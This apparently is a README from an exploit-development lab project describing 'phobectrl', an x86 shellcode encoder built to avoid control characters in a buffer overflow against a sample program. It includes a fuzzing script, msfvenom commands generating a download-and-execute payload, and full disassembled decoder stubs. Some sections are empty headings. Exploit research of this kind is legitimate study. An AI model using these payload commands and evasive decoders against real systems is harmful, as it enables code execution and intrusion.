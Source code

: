 
# `phobectrl` x86 payload encoder, no control chars.

## Intro

> The stack buffer overflow in [cat.exe](../cat) couldn't contain control characters and msfvenom (its badchars) failed to encode them for certain payloads. _(At least with the used arguments.)_

* [phobectrl.py](phobectrl.py) is a script which can encode a payload to avoid control chars. 

### .. Setup

* The [cat.exe](../cat) sample file
* [ImmunityDebugger](https://www.immunityinc.com/products/debugger/)
* [Python >= 3.5](https://www.python.org)
* Test asm project created with:
  * [MASM32 SDK](http://www.masm32.com)
  * [EasyCode IDE](http://easycode.cat/English/)

---
## Bad control characters ..

### .. and the breaking of the payload in [cat.exe](../cat) 

With the  [cat.exe](../cat) sample in the  [fuzz5.py](../cat#fuzz5.py) part it was impossible to make a payload that contains [control chars](https://en.wikipedia.org/wiki/Control_character). The DEL control character with value `127` (or `0x7F`) was allowed. 

* Actually this python script `test1.py` reveals ..
```python
import os

with open('test.dat', 'wb') as outfile:
	for i in range(255, -1, -1):
		current = bytearray('{:02x}'.format(i) * 5, 'ascii')
		outfile.write(current + bytes([i]) + current + b'\r\n')
os.system('START CMD.EXE /K ..\\cat\\cat.exe test.dat')
```

* Reveals that control characters above `0x0D (CR)` are allowed, and  the `0x09 (TAB)` character too. The output stops at a `0x00 (NULL)` character before the end of the file. 
```
10101010101010101010
0f0f0f0f0f0f0f0f0f0f
0e0e0e0e0e0e0e0e0e0e
0d0d0d0d0d
d0d0d0d0d
0c0c0c0c0c
c0c0c0c0c
0b0b0b0b0b
b0b0b0b0b
0a0a0a0a0a
a0a0a0a0a
0909090909      0909090909
0808080808
808080808
0707070707
707070707
0606060606
606060606
0505050505
505050505
0404040404
404040404
0303030303
303030303
0202020202
202020202
0101010101
101010101
0000000000

```

### .. can't be encoded in msfvenom for certain payloads

* The initial test payload that popped up notepad could be encoded avoiding control characters. But other payload(s) failed.
```
root@kali:~# msfvenom --payload windows/download_exec --platform windows --arch x86 -b '\x00\x01\x02\x04\x05\x06\x07\x08\x0A\x0B\x0C\x0D\x0E\x0F\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1A\x1B\x1C\x1D\x1E\x1F' -f hex URL=http://localhost/ EXE=a.exe 
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=3, char=0x00)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor failed with A valid encoding key could not be found.
Attempting to encode payload with 1 iterations of x86/countdown
Error: No valid set instruction could be created!
```

> **Note** maybe there are commandline arguments in msfvenom which allow the payload to be encoded without any control char **AND** only avoiding the bad characters for [cat.exe](../cat) actually works fine in msfvenom.
`root@kali:~# msfvenom --payload windows/download_exec --platform windows --arch x86 -b '\x00\x01\x02\x04\x05\x06\x07\x08\x0A\x0B\x0C\x0D' -f hex URL=http://localhost/ EXE=a.exe`

---
## The encoder/decoder

* The decoder stub is 52 or 56 bytes and
* uses a table of 2 bytes per encoded character.
* The maximum size of the encoded payload is ~~either maximum 12 bit or 4K long  excluded or~~ maximum 14 bit or 16K with the `0x7F (ESC)` character included. 

> eg: 500 byte payload, with 40 control chars => `500 + (40 * 2) + 52 = 632` bytes after encoding

> Because creating the payload failed this encoder/decoder was made. _(To avoid the characters `\x00\x01\x02\x04\x05\x06\x07\x08\x0A\x0B\x0C\x0D` the "x86/shikata_ga_nai" decoder adds merely `448 - 422 = 26` bytes. SO this decoder is not the best but does the job.. )_

### .. Creating an encoder


### .. Creating a decoder

* 56 byte decoder stub
```
000 | EB 31         | JMP SHORT 033 (getip)
002 | 80CA 80       | OR DL, 80
005 | EB 24         | JMP SHORT 02B (carried)
007 | 5E            | POP ESI
008 | B9 BAAAFFFF   | MOV ECX, FFFFAABA
00D | 81E1 BAAAFFFF | AND ECX, FFFFAABA
013 | 8BFE          | MOV EDI, ESI
015 | 2BF9          | SUB EDI, ECX
017 | F7D9          | NEG ECX
019 | D1E9          | SHR ECX, 1
01B | 33D2          | XOR EDX, EDX
01D | 66:8B544E FE  | MOV DX, WORD PTR [ESI + ECX * 2 - 2]
022 | 66:81E2 7F7F  | AND DX, 7F7F
027 | D0EE          | SHR DH, 1
029 | 72 D7         | JB SHORT 002 (carry)
02B | 80243A 7F     | AND BYTE PTR [EDX + EDI], 7F
02F | E2 EC         | LOOPD SHORT 01D (next)
031 | FFE7          | JMP EDI
033 | E8 CFFFFFFF   | CALL 007 (popip)
038
```
* 52 byte decoder stub
```
000 | EB 2D         | JMP SHORT 02F (getip)
002 | 80CA 80       | OR DL, 80
005 | EB 20         | JMP SHORT 027 (carried)
007 | 5E            | POP ESI
008 | B9 BAAAFFFF   | MOV ECX, FFFFAABA
00D | 8BFE          | MOV EDI, ESI
00F | 2BF9          | SUB EDI, ECX
011 | F7D9          | NEG ECX
013 | D1E9          | SHR ECX, 1
015 | 33D2          | XOR EDX, EDX
017 | 66:8B544E FE  | MOV DX, WORD PTR [ESI + ECX * 2 - 2]
01C | 66:81E2 7F7F  | AND DX, 7F7F
021 | D0EE          | SHR DH, 1
023 | 72 DD         | JB SHORT 002 (carry)
025 | 90            | NOP
026 | 90            | NOP
027 | 80243A 7F     | AND BYTE PTR [EDX + EDI], 7F
02B | E2 EA         | LOOPD SHORT 017 (next)
02D | FFE7          | JMP EDI
02F | E8 D3FFFFFF   | CALL 007 (popip)
034
```

### .. Port to ruby


---
##  References

* [CIS-77 Introduction to Computer Systems - Encoding Real x86 Instructions](http://www.c-jump.com/CIS77/CPU/x86/lecture.html)
* [X86 Opcode and Instruction Reference](http://ref.x86asm.net/index.html)
* [Intel 64 ia 32 architectures software developer instruction set reference manual](https://www.intel.com/content/dam/www/public/us/en/documents/manuals/64-ia-32-architectures-software-developer-instruction-set-reference-manual-325383.pdf)
* [Uninformed.org - Implementing a custom x86 encoder](http://www.uninformed.org/?v=5&a=3&t=sumry)

---